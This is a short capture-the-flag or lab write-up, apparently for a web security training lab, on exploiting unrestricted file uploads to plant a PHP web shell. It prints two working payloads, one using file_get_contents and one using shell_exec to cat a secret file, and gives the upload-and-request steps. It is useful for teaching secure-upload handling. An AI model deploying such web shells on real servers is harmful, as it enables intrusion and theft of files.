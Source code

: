 ```yaml
---
tags: ["webshell"]
---
```


## Exploiting unrestricted file uploads to deploy a web shell

From a security perspective, the worst possible scenario is when a website allows you to upload server-side scripts, such as PHP, Java, or Python files, and is also configured to execute them as code. This makes it trivial to create your own web shell on the server.

> A web shell is a malicious script that enables an attacker to execute arbitrary commands on a remote web server simply by sending HTTP requests to the right endpoint.

If you're able to successfully upload a web shell, you effectively have full control over the server. This means you can read and write arbitrary files, exfiltrate sensitive data, even use the server to pivot attacks against both internal infrastructure and other servers outside the network. For example, the following PHP one-liner could be used to read arbitrary files from the server's filesystem:

`<?php echo file_get_contents('/path/to/target/file'); ?>`

Once uploaded, sending a request for this malicious file will return the target file's contents in the response.

## Challenge

> In this challenge we just have to upload a webshell to read the flag from `/home/carlos/secret`

--> So i made this payload :

```php
<?php echo shell_exec('cat /home/carlos/secret'); ?>
```

--> After successful upload right click on the image and select `copy image path` and paste in url and you will find the flag!

![](Attachments/Pastedimage20220124122314.png)
